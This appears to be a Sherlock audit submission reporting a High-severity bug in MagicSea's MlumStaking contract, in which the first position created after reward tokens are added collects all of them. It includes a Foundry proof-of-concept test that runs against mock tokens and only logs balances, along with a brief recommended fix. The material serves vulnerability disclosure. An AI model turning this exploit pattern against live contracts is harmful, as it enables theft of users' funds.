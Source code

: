 Spicy Lilac Buffalo

High

# withdrawn reward tokens with front run attack

## Summary
In the contract https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol  If reward tokens have been added, the first person to create a position will receive all reward tokens, regardless of the amount of funds deposited. 
## Vulnerability Detail
When creating a position in the pool, if a reward token is added first, then the first person to conduct a transaction after adding the reward token will receive the entire reward.
## Impact
100% of the reward tokens will be withdrawn by the attacker
## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L354-L390
## Proof of Concept
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.20;

import "forge-std/Test.sol";

import "openzeppelin-contracts-upgradeable/access/OwnableUpgradeable.sol";
import "../src/transparent/TransparentUpgradeableProxy2Step.sol";

import "openzeppelin/token/ERC721/ERC721.sol";
import "openzeppelin/token/ERC20/ERC20.sol";

import "../src/MlumStaking.sol";

import {ERC20Mock} from "./mocks/ERC20.sol";

contract MlumStakingTest is Test {
    address payable immutable DEV = payable(makeAddr("dev"));
    address payable immutable ALICE = payable(makeAddr("alice"));
    address payable immutable BOB = payable(makeAddr("bob"));


    IMlumStaking private _pool;

    ERC20Mock private _stakingToken;
    ERC20Mock private _rewardToken;

    function setUp() public {
        vm.prank(DEV);
        _stakingToken = new ERC20Mock("MagicLum", "MLUM", 18);

        vm.prank(DEV);
        _rewardToken = new ERC20Mock("USDT", "USDT", 6);

        vm.prank(DEV);

        address _poolImpl = address(new MlumStaking(_stakingToken, _rewardToken));

        _pool = MlumStaking(
            address(
                new TransparentUpgradeableProxy2Step(
                    _poolImpl, ProxyAdmin2Step(address(1)), abi.encodeWithSelector(MlumStaking.initialize.selector, DEV)
                )
            )
        );
    }
    function testAddPosition() public {
        _stakingToken.mint(ALICE, 2 ether);
        _stakingToken.mint(BOB, 2 ether);
        _rewardToken.mint(address(_pool), 1 ether);
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 4 ether);
        _pool.createPosition(1 wei, 0 seconds);
        _pool.withdrawFromPosition(1, 1 wei);
        vm.stopPrank();
        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 4 ether);
        _pool.createPosition(1 ether, 365 days);
        vm.stopPrank();
        MlumStaking.StakingPosition memory position = _pool.getStakingPosition(1);
        uint256 rewardBalanceAlic = _rewardToken.balanceOf(ALICE);
        uint256 rewardBalanceBOB = _rewardToken.balanceOf(BOB);
        uint256 rewardBalance = _rewardToken.balanceOf(address(_pool));
        uint256 stakingBalanceAlice = _stakingToken.balanceOf(ALICE);
        uint256 stakingBalance = _stakingToken.balanceOf(address(_pool));
        position = _pool.getStakingPosition(1);
        uint256 bobAmount = _pool.pendingRewards(2);
        uint256 alicAmount = _pool.pendingRewards(1);
        console2.log(bobAmount, "Pending BOB");
        console2.log(alicAmount, "Pendig Alice");
        console2.log(rewardBalanceAlic, "balance reward token Alice");
        console2.log(rewardBalanceBOB, "balance reward token BOB");
        console2.log(rewardBalance, "balance reward token pool");
        console2.log(stakingBalanceAlice, "balance staking token Alice");
        console2.log(stakingBalance, "balance staking token pool");
}
}
```

![2024-07-11_12-57-24](https://github.com/sherlock-audit/2024-06-magicsea-Patreeciy/assets/171034040/e00e7ba6-52bd-45ef-a41b-06e912910026)



## Tool used

Manual Review

## Recommendation
add time management before withdrawal of funds, and distribution of reward token, only at the end of lockDuration